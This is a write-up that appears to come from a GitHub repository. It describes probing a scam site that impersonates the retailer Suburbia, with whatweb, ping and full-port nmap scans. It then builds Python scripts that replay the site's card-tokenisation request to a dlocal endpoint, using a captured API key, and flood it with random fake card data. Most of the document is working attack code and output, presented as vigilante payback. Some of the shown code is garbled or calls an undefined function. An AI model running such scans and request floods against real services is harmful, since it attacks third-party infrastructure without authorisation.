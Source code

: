 # Suburbia Scammers

I found some publicity related to cheap pokemon cards in suburbia's page, but also found some inconsistencies which made me realize that it was a scam. The real page looks different to the fake one, on one hand the head of the page you can see options like services, credits and account: 

![](https://github.com/ZLCube/ScamScammers/blob/main/Suburbia/ss/2.png)

On the other hand the fake page has no account section and also its showing suspicious tags, for example "Trusted Store", purchase history from other users and last but not least really cheap price tags. 

![](https://github.com/ZLCube/ScamScammers/blob/main/Suburbia/ss/3.png)

There are also some interesting things like incusted data from other sites such as "facebook, yahoo and analytics.yahoo"; And the most important warning, the fake URL:
Starting point: https://suburbiashop.shop

![](https://github.com/ZLCube/ScamScammers/blob/main/Suburbia/ss/4.png)

First we need to obtain the ip address, I got it by ussing whatweb:

```c
❯ whatweb https://suburbiashop.shop/
https://suburbiashop.shop/ [200 OK] Cookies[PHPSESSID,_fbs_fbp,axwrt,first_http_referer,first_visit_time,landing_page,order_utm_history,shop_checkout_visit_id,shop_global_visit_id,shop_global_visit_session,shop_keep_alive,utm_campaign,utm_content,utm_medium,utm_source,utm_term], Country[UNITED STATES][US], Email[services@jerrewe.shop], HTML5, HTTPServer[cloudflare], IP[104.18.4.221], Open-Graph-Protocol[website], Script[application/javascript,application/ld+json,text/javascript,text/x-template], Title[suburbia.com.mx], UncommonHeaders[x-trace-id,execution-time,trace_id,cf-cache-status,cf-ray]
```

Now we can send an ICMP trace to validate if we are against a linux or windows server:

```bash
❯ ping -c 1 104.18.4.221
PING 104.18.4.221 (104.18.4.221) 56(84) bytes of data.
64 bytes from 104.18.4.221: icmp_seq=1 ttl=59 time=36.4 ms
```

Let's also find what services are running in the server

```bash
❯ sudo nmap -p- --open -n -Pn --min-rate 5000 104.18.4.221
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-04 20:49 EDT
Nmap scan report for 104.18.4.221
Host is up (0.63s latency).
Not shown: 65527 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
2052/tcp open  clearvisn
2082/tcp open  infowave
2087/tcp open  eli
2095/tcp open  nbx-ser
8080/tcp open  http-proxy
8443/tcp open  https-alt
```

I'll jump right to the main functionality, as we know, the page its impersonating `suburbia` their purpose is  to steal user's data. Let's intercept the payment requests to see where the data is going:

![](https://github.com/ZLCube/ScamScammers/blob/main/Suburbia/ss/1.png)

```r
POST /cvault/credit-card/temporal HTTP/2
Host: ppmcc.dlocal.com
Content-Length: 180
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
X-Fields-Api-Key: f8e7fd3b-3450-4ca5-ac49-101712109df6
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: application/json
X-Uow: FI-jyrAs1743814948808
Origin: https://static.dlocal.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://static.dlocal.com/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
	"expiration_month":"09",
	"expiration_year":"2029",
	"holder_name":"John Doe",
	"pan":"1233313133313111112",
	"key":"f8e7fd3b-3450-4ca5-ac49-101712109df6",
	"country_"cvv":"691"code":"MX",
}
```

Here we notice that we are sending a post request to upload the data to:

```js
POST /cvault/credit-card/temporal HTTP/2
Host: ppmcc.dlocal.com
```

The json format is getting the input data as:

```json
{
	"expiration_month":"09",
	"expiration_year":"2029",
	"holder_name":"John Doe",
	"pan":"1233313133313111112",
	"key":"f8e7fd3b-3450-4ca5-ac49-101712109df6",
	"country_"cvv":"691"code":"MX",
}
```

With this in mind we can saturate the server by sending some trash data, just to make fun of this attackers, so lets build a python script with the required headders to impersonate the POST requests: 

```python
import requests
import random
import string
import uuid

# Random data generator function
def generate_data():
    return {
        "expiration_month": f"{random.randint(1, 12):02d}",
        "expiration_year": str(random.randint(2025, 2030)),
        "holder_name": random.choice(["John Doe", "Alice Smith", "Carlos Pérez", "Maria Garcia"]),
        "pan": "".join([str(random.randint(1, 9))] + [str(random.randint(0, 9)) for _ in range(15)]),
        "key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
        "country_code": "MX",  # corregido el error en "country_"cvv"
        "cvv": str(random.randint(100, 999))
    }

# Required headders
headers = {
    "Sec-Ch-Ua-Platform": "\"Linux\"",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": "\"Chromium\";v=\"133\", \"Not(A:Brand\";v=\"99\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "X-Fields-Api-Key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "X-Uow": "FI-" + ''.join(random.choices(string.ascii_letters + string.digits, k=20)),
    "Origin": "https://static.dlocal.com",
    "Sec-Fetch-Site": "same-site",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "https://static.dlocal.com/",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i"
}

# Endpoint URL
url = "https://ppmcc.dlocal.com/cvault/credit-card/temporal"

# Send POST request
def send_data():
    data = generate_data()
    response = requests.post(url, json=data, headers=headers)
    print("Status Code:", response.status_code)
    print("Response Body:", response.text)

if __name__ == "__main__":
    send_data()
```

```bash
❯ python3 poc.py
Status Code: 200
Response Body: {"token":"CV-d6646a6d-9d48-4a72-b803-301fb23e96de"}
```

Great, our request it's working so lets make a forloop to send the random generated data  in range of 1 to 100:

```python
import requests
import random
import string
import uuid

# Loop range function (For spamming requests)
def loop():
	for i in range (1,100):
		enviar_datos()
		
# Random data generator function
def generate_data():
    return {
        "expiration_month": f"{random.randint(1, 12):02d}",
        "expiration_year": str(random.randint(2025, 2030)),
        "holder_name": random.choice(["John Doe", "Alice Smith", "Carlos Pérez", "Maria Garcia"]),
        "pan": "".join([str(random.randint(1, 9))] + [str(random.randint(0, 9)) for _ in range(15)]),
        "key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
        "country_code": "MX",  # corregido el error en "country_"cvv"
        "cvv": str(random.randint(100, 999))
    }

# Required headders
headers = {
    "Sec-Ch-Ua-Platform": "\"Linux\"",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": "\"Chromium\";v=\"133\", \"Not(A:Brand\";v=\"99\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "X-Fields-Api-Key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "X-Uow": "FI-" + ''.join(random.choices(string.ascii_letters + string.digits, k=20)),
    "Origin": "https://static.dlocal.com",
    "Sec-Fetch-Site": "same-site",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "https://static.dlocal.com/",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i"
}

# Endpoint URL
url = "https://ppmcc.dlocal.com/cvault/credit-card/temporal"

# Send POST request
def send_data():
    data = generate_data()
    response = requests.post(url, json=data, headers=headers)
    print("Status Code:", response.status_code)
    print("Response Body:", response.text)

if __name__ == "__main__":
	loop()
```

```bash
❯ python3 poc.py
Status Code: 200
Response Body: {"token":"CV-e0e9537a-3610-48ec-a585-c2fd08d3196b"}
Status Code: 200
Response Body: {"token":"CV-9ad7ca06-6921-4c9e-bb51-0c5799816ede"}
Status Code: 200
Response Body: {"token":"CV-9d245d3a-8ff2-4aa4-bba9-292ce1fcde2b"}
Status Code: 200
Response Body: {"token":"CV-63156489-7d11-480b-a755-03ef3c8fb539"}
Status Code: 200
Response Body: {"token":"CV-a20f92ca-5c08-460b-9d1c-17d9ebad5535"}
Status Code: 200
Response Body: {"token":"CV-c1dae9b2-6d76-4ad1-80b2-a2345f2ee86d"}
Status Code: 200
Response Body: {"token":"CV-1a4ab6c9-2b8b-49d2-ba7c-b8ddf38f713d"}
Status Code: 200
Response Body: {"token":"CV-98729a6f-e7f6-424d-9a23-cedec3cad999"}
```

Cool, thats how you trick a scammer ;)

# PWNED BY ZLCube
